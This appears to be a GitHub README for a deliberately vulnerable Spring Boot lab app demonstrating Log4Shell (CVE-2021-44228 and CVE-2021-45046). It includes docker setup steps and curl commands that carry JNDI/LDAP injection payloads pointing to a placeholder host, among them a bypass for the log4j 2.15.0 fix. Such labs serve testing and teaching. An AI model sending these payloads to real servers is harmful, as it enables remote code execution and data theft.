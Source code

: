 # Log4Shell sample vulnerable application

This repository contains Spring Boot web applications vulnerable to [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).


## Variants
### cve-2021-44228 (log4j-core: 2.14.1)
* JDK: openjdk:8u312-jdk-slim
* SpringLog4J: org.springframework.boot:spring-boot-starter-log4j2:2.6.1 (https://mvnrepository.com/artifact/org.springframework.boot/spring-boot-starter-log4j2/2.6.1)
* log4j-core: 2.14.1

```bash
cd log4j-2.14.1
sudo docker build -t vulnerable-app:log4j-2.14.1 .
sudo docker run -p 8000:8080 --name vulnerable-app-log4j-2.14.1 --rm vulnerable-app:log4j-2.14.1
```

Trigger the vulnerability using:

```bash
curl 127.0.0.1:8000 -H 'X-Api-Version: ${jndi:ldap://your-private-ip.com/abc}'
```

### cve-2021-45046 (log4j-core: 2.15.0)
https://www.whitesourcesoftware.com/resources/blog/log4j-vulnerability-cve-2021-45046/


* JDK: openjdk:8u312-jdk-slim
* SpringLog4J: org.springframework.boot:spring-boot-starter-log4j2:2.6.1 (https://mvnrepository.com/artifact/org.springframework.boot/spring-boot-starter-log4j2/2.6.1)
* log4j-core: 2.15.0

```bash
cd log4j-2.15.0
sudo docker build -t vulnerable-app:log4j-2.15.0 .
sudo docker run -p 8000:8080 --name vulnerable-app-log4j-2.15.0 --rm vulnerable-app:log4j-2.15.0
```

Does not work anymore:
```bash
curl 127.0.0.1:8000/old -H 'X-Api-Version: ${jndi:ldap://your-private-ip.com/abc}'
```

Trigger the vulnerability using:
```bash
curl 127.0.0.1:8000 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1#your-private-ip.com/abc}'
```

Why this works: https://twitter.com/marcioalm/status/1471742744347348997


When the logging configuration uses a non-default Pattern Layout with a Context Lookup (for example, $${ctx:loginId}), attackers with control over Thread Context Map (MDC) input data can craft malicious input data using a JNDI Lookup pattern, resulting in an information leak and remote code execution in some environments and local code execution in all environments; remote code execution has been demonstrated on MacOS, Fedora, Arch Linux, and **Alpine Linux**.
https://logging.apache.org/log4j/2.x/security.html

## Forked from
https://github.com/christophetd/log4shell-vulnerable-app

thanks to

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)

